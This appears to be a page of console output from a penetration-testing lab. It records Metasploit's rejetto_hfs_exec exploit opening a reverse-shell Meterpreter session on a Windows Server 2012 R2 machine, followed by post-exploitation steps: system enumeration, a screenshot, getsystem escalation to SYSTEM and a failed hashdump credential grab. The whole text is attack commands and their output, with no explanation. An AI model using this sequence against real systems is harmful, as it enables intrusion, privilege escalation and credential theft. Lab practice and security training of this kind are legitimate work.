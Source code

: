 ```
msf5 exploit(windows/http/rejetto_hfs_exec) > run

[*] Started reverse TCP handler on 10.10.21.3:4444 
[*] Using URL: http://0.0.0.0:8080/P431TWLBjtvhm
[*] Local IP: http://10.10.21.3:8080/P431TWLBjtvhm
[*] Server started.
[*] Sending a malicious request to /
[*] Payload request received: /P431TWLBjtvhm
[*] Sending stage (180291 bytes) to 10.0.29.158
[*] Meterpreter session 1 opened (10.10.21.3:4444 -> 10.0.29.158:49428) at 2023-02-12 17:12:55 +0530
[*] Server stopped.
[!] This exploit may require manual cleanup of '%TEMP%\iOyMAAXCco.vbs' on the target

meterpreter > 
[!] Tried to delete %TEMP%\iOyMAAXCco.vbs, unknown result

meterpreter > sysinfo
Computer        : WIN-OMCNBKR66MN
OS              : Windows 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > getuid
Server username: WIN-OMCNBKR66MN\Administrator
```

```
meterpreter > help
```

```
meterpreter > screenshot
Screenshot saved to: /root/nzJJeaCT.jpeg
```

```
meterpreter > getsystem
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > hashdump
[-] priv_passwd_get_sam_hashes: Operation failed: The parameter is incorrect.
```

```
meterpreter > show_mount

Mounts / Drives
===============

Name  Type   Size (Total)  Size (Free)  Mapped to
----  ----   ------------  -----------  ---------
C:\   fixed   29.66 GiB      8.68 GiB   


Total mounts/drives: 1
```
